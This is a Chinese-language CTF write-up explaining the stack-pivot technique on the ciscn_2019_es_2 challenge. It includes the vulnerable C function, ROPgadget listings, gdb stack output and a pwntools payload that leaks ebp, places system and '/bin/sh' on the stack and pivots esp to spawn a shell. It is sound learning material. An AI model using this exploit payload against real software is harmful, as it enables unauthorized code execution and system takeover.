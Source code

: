 在做题的时候又遇到了不会的方式->栈迁移

# 栈迁移

## 条件：

可溢出的长度不够用，也就是没办法溢出到返回地址只能溢出覆盖ebp。（按照常规思路，先造成溢出再将rop链写入。但现在没有构造rop的空间）



栈迁移能被实施的条件有二：

1. 存在 `leave ret`这类gadget指令    
2. 存在可执行`shellcode`的内存区域

对于条件一，使用`ROPGadget`可查看存在哪些gadget

## 原理：

利用两次`leave;ret`，第一次把`ebp`放在我们想让他去的位置，第二次把esp也放在这个地址，在`pop ebp`之后`esp`也指向了下一个内存单元，然后将下一个内存单元设置成shell的内容即可



## 例题：

#### ciscn_2019_es_2

```c#
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```

第一个read读了`0x30`字节，而s距离`ebp`只有`0x28`，所以可以栈溢出，但是只有`0x30-0x28=0x8`字节的溢出,没办法将`rop`链写入



我们这里利用栈上面的空间，将栈上前`0x28`字节放入`rop`，然后最后`0x8`字节实现栈迁移



而这个题给了system函数，满足上述条件2，我们`ROPgadget`一下

```c#
ROPgadget --binary zhan | grep 'leave'
0x0804862d : add byte ptr [eax], al ; mov ecx, dword ptr [ebp - 4] ; leave ; lea esp, [ecx - 4] ; ret
0x08048542 : add esp, 0x10 ; leave ; jmp 0x80484c0
0x080484b5 : add esp, 0x10 ; leave ; repz ret
0x0804855e : add esp, 0x10 ; nop ; leave ; ret
0x08048631 : cld ; leave ; lea esp, [ecx - 4] ; ret
0x08048630 : dec ebp ; cld ; leave ; lea esp, [ecx - 4] ; ret
0x08048545 : leave ; jmp 0x80484c0
0x08048632 : leave ; lea esp, [ecx - 4] ; ret
0x080484b8 : leave ; repz ret
0x08048562 : leave ; ret
0x08048543 : les edx, ptr [eax] ; leave ; jmp 0x80484c0
0x080484b6 : les edx, ptr [eax] ; leave ; repz ret
0x0804855f : les edx, ptr [eax] ; nop ; leave ; ret
0x08048514 : mov byte ptr [0x804a048], 1 ; leave ; repz ret
0x0804855a : mov byte ptr [0x83fffffe], al ; les edx, ptr [eax] ; nop ; leave ; ret
0x0804862f : mov ecx, dword ptr [ebp - 4] ; leave ; lea esp, [ecx - 4] ; ret
0x08048561 : nop ; leave ; ret
0x08048519 : or byte ptr [ecx], al ; leave ; repz ret
```



可以看到有很多可利用的`leave;ret`，满足条件1，所以可以实现栈迁移。首先可以利用vul函数里的printf带出ebp的地址，从而算出我们要劫持的地址`s`的精确地址



我们在vul的nop处下断，输入点东西定位一下具体偏移

```c
00:0000│ esp 0xffffd130 ◂— 'aaaa\n'
01:0004│     0xffffd134 ◂— 0xa /* '\n' */
02:0008│     0xffffd138 ◂— 0x0
... ↓        5 skipped
08:0020│     0xffffd150 —▸ 0x80486d8 ◂— push edi /* "Welcome, my friend. What's your name?" */
09:0024│     0xffffd154 —▸ 0xf7fbe66c —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— ...
0a:0028│ ebp 0xffffd158 —▸ 0xffffd168 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
```



esp位于`0xffffd130`，ebp寄存器位于`0xffffd158`，而ebp所存内容位于`0xffffd168`(栈中的ebp)，所以我们用printf泄露ebp的地址，减去0x38，就是我们要劫持的esp的地址



我们要做的就是把ebp寄存器中的内容覆盖为`ebp内容地址-0x38`，而`ebp内容地址`已经被我们泄露，随后执行第二个ret的时候,esp也被覆盖为该值，实现了将esp劫持至`ebp内容地址-0x38`，然后执行shellcode



然后别忘了要把gdb测试的数据填入进去



以下是payload中栈迁移的部分

```python
payload2 = b'aaaa'#填入我们gdb测试时候的数据
payload2 += p32(system_plt)#esp从这里开始执行
payload2 += b'dddd' #这里为了栈的完整性，填一个假的ebp
payload2 += p32(ebp - 0x28) #写入binsh的地址
payload2 += b'/bin/sh\x00' #写入binsh
payload2 = payload2.ljust(0x28, b'p')#填充剩余的，直到ebp

payload2 += p32(ebp - 0x38) #覆盖ebp为ebp-0x38
payload2 += p32(leave_ret) #将ret覆盖为我们ROPgadget找到的地址
```

简而言之，栈迁移就是恰好就用能被轻易修改的ebp实现了对esp的篡改，进而影响到eip。



所以两次leave ret：

将栈上ret覆盖为我们找到的`leave ret`指令的地址，即最终程序退出时会执行两次`leave`指令，一次`ret`指令。由此，当`pop ebp`被第一次执行后，eip将指向又一条 `mov esp, ebp`指令的地址，而此时ebp寄存器的内容已变为了我们篡改过的栈上 `ebp`的数据。这样，`esp`就到了另外的一处内存空间实现栈迁移